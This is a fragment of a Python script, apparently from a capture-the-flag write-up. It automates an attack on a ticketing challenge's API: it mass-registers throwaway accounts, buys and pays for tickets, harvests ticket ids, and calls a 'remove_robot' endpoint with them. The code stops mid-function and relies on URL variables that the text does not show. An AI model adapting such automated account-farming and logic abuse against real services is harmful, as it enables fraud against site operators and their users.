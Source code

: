 ```python
# game main get the id and the ticket
ticket_url = 'ctf/api/search_ticket'
# remove url
remove_url = 'ctf/api/remove_robot?id={}&ticket={}'
password = '12345678'

# message queue
q = queue.Queue()

headers = {'Accept': 'text/html, application/xhtml+xml, image/jxr, */*',
               'Accept - Encoding':'gzip, deflate',
               'Accept-Language':'zh-Hans-CN, zh-Hans; q=0.5',
               'Connection':'Keep-Alive',
               'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36 Edge/15.15063'
           }

def fuck_ticket(name):
    time.sleep(2)
    s = requests.Session()
    url = base_url + register_url
    name = 'wulasitea' + str(name)
    # 注册
    url = url.format(name, password)
    s.get(url)
    print(name)
    # 登录
    url = base_url + login_url
    url = url.format(name, password)
    # print(s.get(url).text + name)
    s.get(url)
    # 购票
    url = base_url + buy_url
    res = s.get(url)

    # bill_id
    url = base_url + get_bill_info_url
    try:
        bill_id = json.loads(s.get(url).text)['data'][0]['bill_id']
        # 支付
        url = base_url + pay_url
        url = url.format(bill_id)
        s.get(url)
        # print(s.get(url).text)
    except ValueError as e:
        pass
    except IndexError as e:
        pass
    # get the final data

    try:
        url = base_url + ticket_url
        content = json.loads(s.get(url).text)
        id = str(content['data'][0]['id'])
        ticket_id = content['data'][0]['ticket']
        #删除
        name = 'h'
        url = base_url + login_url
        url = url.format(name, password)
        s.get(url)
        url = base_url + remove_url
        url = url.format(id, ticket_id)
        print(url)
```